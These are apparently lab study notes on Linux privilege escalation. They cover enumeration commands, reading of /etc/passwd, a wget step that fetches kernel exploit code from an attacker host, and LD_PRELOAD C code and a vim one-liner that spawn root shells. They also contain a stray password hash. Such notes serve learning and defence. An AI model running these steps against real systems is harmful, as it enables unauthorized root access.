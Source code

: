 Privilege Escalation - going from a lower permission account to a higher permission one
-exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users
-Privilege Escalation allows:
1. Resetting passwords
2. Bypass access controls to compromise protected data
3. Editing software configurations
4. Enabling persistence
5. Changing the privilege of existing users
6. Execute any admin command

Enumeration - first step taken after gaining access, important step post-compromise phase
'hostname' - command returns hostname of the target machine
'uname -a' - print system information detail about kernel, useful for potential kernel vulns
'/proc/version' - info about the target system processes
'/etc/issue' - file contains info about the OS, can be eaily customized or changed
'ps' - see running processes on linux system
-1. PID: Process ID
-2. TTY: Terminal type used by user
-3. Time: Amount of CPU time used by process
-4. CMD: command or executable running
'ps -a': view all running processes
'ps axjf': view process tree
'ps aux': will show processes for all users
-a: all users
-u: display the user that launced the process
-x: show processes that are not attached to a terminal

'env': show environmental variables
'sudo -l: list all commands the user can run using 'sudo'
'ls': list files in current directory
'ls -la': list all files including hidden files in current directory
'id <user>': provide a general overview of the user's privilege level
'cat /etc/passwd': discover users on the system
'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
'history': look at earlier commands 
'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
'ip route': see network route

'netstat': gather information on existing connections
'netstat -a': shows all listening ports and established connections
'netstat -at': list TCP protocols
'netstat -au': list UDP protocols
'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
'netstat -lt': list ports in 'listening' mode using TCP protocol
'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
'netstat -tp': list connections with service name and PID (-l: listening ports)
'netstat -i': shows interface stats
'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

find command - searching the target system for important information and potential privilege escalation vectors 
'find . -name <filename>.txt' find the file named <filename> in the current directory
'find /home -name <filename>.txt': find file named <filename> in the /home directory
'find / -type d -name config': find the directory named config under "/"
'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
'find / -perm a=x':find executable files
'find /home -user frank': find all files for user "frank" under "/home"
'find / -mtime 10': find files modified in the last 10 days
'find / -atime 10': find files accessed in the last 10 days
'find / -cmin -60': find files changed in the last hour 
'find / -amin -60': find files accessed in the last hour
'find / -size 50M': find files with a 50 MB size

folders and files that can be written to or executed from:
1. 'find / -writable -type d 2>/dev/null'
2. 'find / -perm -222 -type d 2>/dev/null'
3. 'find / -perm -o w -type d 2>/dev/null'
'find / -perm -o x -type d 2>/dev/null': find world executable folders
find development tools and supported languages:
'find / -name perl*'
'find / -name python*'
'find / -name gcc*'
'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

Automated Enumeration Tools - linux enumeration tools with Github Repositories
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

Kernel Exploits
-privEsc ideally leads to root privileges
-achieved by exploting an existing vuln or accessing another user account that has higher privileges
-rely on misconfigurations and lax permissions
-methodology:
1. Id the Kernel version
2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
3. Run the exploit

Linux Kernel 3.13.0-24-generic x86 64
CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
Exploit: https://www.exploit-db.com/exploits/37292
1. Need to copy exploit file to the target machine
	a. start a python server to serve the file
	python3 -m http.server 8888
	b. on target machine copy the file in the /tmp folder
	wget http://1.2.3.4/8888/exploit.c
2. compile the exploit
gcc exploit.c -o pwned
3. search for flag
find . -name flag1.txt
4. cat flag1.txt

Sudo
-check root privileges using 'sudo -l'
-Leverage application functions: some application allow the loading of alternative configuration files
eg: Apache2 ('-f': specify an alternate ServerConfigFile)
-Leverage LD_PRELOAD: allows any program to use shared libraries
-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
-Methodology:
1. Check for LD_PRELOAD(with the env_keep option enabled)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows; shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
-use this shared object file when launching any program the user can run with sudo
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

SUID
-Linux privilege controls rely on controlling users and file interacions
-achieved using permissions
-SUID(set-user identification)
-SGID(set-group identification)
-'s'bit - special permission level
'find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

Capabilities
'getcap' tool  to list enabled capabilities
-capabilites help manage privileges at a more granular level
'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
'getcap -r / 2>/dev/null'
vim:
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

Cron Jobs
-used to run scripts or binaries at specific times
-run with privilege of the owner and not current user
-task that runs on root privileges, change script that will be run to new script with root privileges
-stored as crontabs
-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
backup.sh - configured to run every minute

PATH
-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
echo $PATH

NFS
-Network file sharing: configuration is kept in '/etc/exports' file. 
-the file is created during the NFS server installation and can usually be read by users
-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system



